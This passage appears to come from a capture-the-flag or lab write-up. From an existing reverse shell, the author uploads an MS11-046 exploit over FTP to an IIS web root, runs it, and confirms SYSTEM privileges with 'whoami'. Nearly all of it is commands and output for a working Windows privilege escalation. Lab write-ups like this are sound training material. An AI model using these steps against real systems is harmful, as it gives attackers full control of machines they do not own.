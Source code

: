 upload the file:

``` bash
mput MS11-046.exe
```

it works:

```
mput MS11-046.exe? y
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
```

back to our reverse shell terminal I look for the file: 

```cmd
dir MS11-046.exe /s /p
```

shows:

```
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of c:\inetpub\wwwroot

11/10/2019  06:57 ��           343.090 MS11-046.exe
               1 File(s)        343.090 bytes

     Total Files Listed:
               1 File(s)        343.090 bytes
               0 Dir(s)  24.608.833.536 bytes free
```

I go to c:\inetpub\wwwroot where the upload is and run it:

``` cmd
cd c:\inetpub\wwwroot
MS11-046.exe
```

this changes my directory:

```
c:\Windows\System32>
```

I check my privelege level with:

``` cmd
whoami
```

And I'm System! W00tW00t!

```
nt authority\system
```

